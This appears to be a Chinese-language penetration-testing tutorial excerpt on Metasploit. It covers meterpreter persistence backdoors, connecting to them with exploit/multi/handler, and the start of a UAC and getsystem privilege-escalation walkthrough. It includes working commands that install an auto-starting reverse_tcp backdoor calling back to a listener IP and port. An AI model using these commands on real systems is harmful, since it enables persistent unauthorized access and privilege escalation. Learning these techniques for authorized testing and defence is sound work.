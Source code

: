 (1) 使用run persistence -h查看参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-L：自启动脚本的路径，默认为%TEMP%

-P：需要使用的payload，默认为
```
windows/meterpreter/reverse_tcp
```
-S：作为一个服务在系统启动时运行（需要SYSTEM权限）

-T：要使用的备用可执行模板

-U：用户登陆时运行

-X：系统启动时运行

-i：后门每隔多少秒尝试连接服务端

-p：服务端监听的端口

-r：服务端ip

(2) 生成后门
```
命令：run persistence -X -i 10 -r 192.168.1.9 -p 4444

run persistence -X -i 10 -r 192.168.100.82 -p 4545 
```




(3) 连接后门

使用exploit/multi/handler模块，payload设置为
```
windows/meterpreter/reverse_tcp
```
![](img/5.png)
，同时设置好服务端监听ip和端口。



## 1.什么是UAC？

Microsoft的Windows Vista和Windows Server 2008操作系统引入了一种良好的用户帐户控制架构，以防止系统范围内的意外更改，这种更改是可以预见的，并且只需要很少的操作量。它是Windows的一个安全功能，它支持防止对操作系统进行未经授权的修改，UAC确保仅在管理员授权的情况下进行某些更改。如果管理员不允许更改，则不会执行这些更改，并且Windows系统保持不变。

## 2.UAC如何运行？

UAC通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行。除非尝试执行这些操作的进程以管理员权限运行，否则这些操作将无法运行。如果您以管理员身份运行程序，则它将具有更多权限，因为它将被“提升权限”，而不是以管理员身份运行的程序。

因为有的用户是没有管理员权限，没有管理员权限是运行不了哪些只能通过管理员权限才能操作的命令。比如修改注册表信息、创建用户、读取管理员账户密码、设置计划任务添加到开机启动项等操作。

最直接的提权命令：getsystem

绕过UAC防护机制的前提是我们首先通过explloit获得目标主机的meterprter。获得meterpreter会话1后，输入以下命令以检查是否是system权限。在这里我就不直接演示了，直接上命令，自己多练习练习即可，所话说熟能生巧。我们需要把获取到的session保存到后台，执行background

